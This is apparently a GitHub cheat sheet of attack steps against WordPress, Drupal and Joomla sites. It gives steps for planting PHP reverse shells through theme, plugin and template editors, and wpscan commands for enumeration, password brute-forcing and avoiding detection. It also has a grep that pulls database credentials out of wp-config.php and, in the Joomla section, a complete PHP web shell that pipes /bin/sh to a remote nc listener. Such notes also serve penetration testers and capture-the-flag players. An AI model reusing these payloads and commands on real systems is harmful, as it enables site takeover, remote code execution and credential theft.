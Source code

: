 - [Wordpress](#Wordpress)
- [Drupal](#Drupal)
- [Joomla](#Joomla)

-----------------------------------------------------------------------------------------------------------------------------------------------
# Wordpress

### Revereshell via thames
- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [port]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php

### ReverseShell via plugins
- Log_in
- Side menu
- Plugins
  - Add New
  - Add Plugin Browse
  - search file for example in /wp-content location
- run nc -lnvp [port]

### nmap scan
```
nmap -sV --script http-wordpress-enum <target>
nmap --script http-wordpress-enum --script-args check-latest=true,search-limit=10 <target>
nmap --script http-wordpress-enum --script-args type="themes" <target>
```
### wpscan

#### update wpscan 
- wpscan update

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
- wpscan --url http://[victim_ip] --enumerate vp --plugins-detection aggressive
- wpscan --url http://[victim_ip] -e ap --plugins-detection aggressive
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan --url http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan --url http://[victim_ip] --passwords wordlist.txt --usernames xyz threads 50
#### Username Bruteforce
- wprscan --url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate ap
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u
###### Get data from config file
- cat [/target/wp/path/wp-config.php |grep -E "DB_USER|DB_PASS"

----------------------------------------------------------------------------------------------------------------------------------------------------------

# Drupal

#### Drupal version enumerate
```
- [victim_ip]/CHANGELOG.txt
```

#### Droopscan
```
droopscan scan drupal -u [target_url]
```

#### commix
```
- https://github.com/commixproject/commix

----------------------------------------------------------------------------------------------------------------------------------------------------------

# Joomla 

## Editing Template Files and Getting a Reverse Shell 

- Extensions -> Templates -> Templates
- Add new file
- Create file with name add a malicious extension e.g(php)
Paste as content:
```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx.xxx.xxx.xxx 1234 >/tmp/f');
?>
```
- run via https://victim_url//templates/your_template_name/malicious_file_name.php


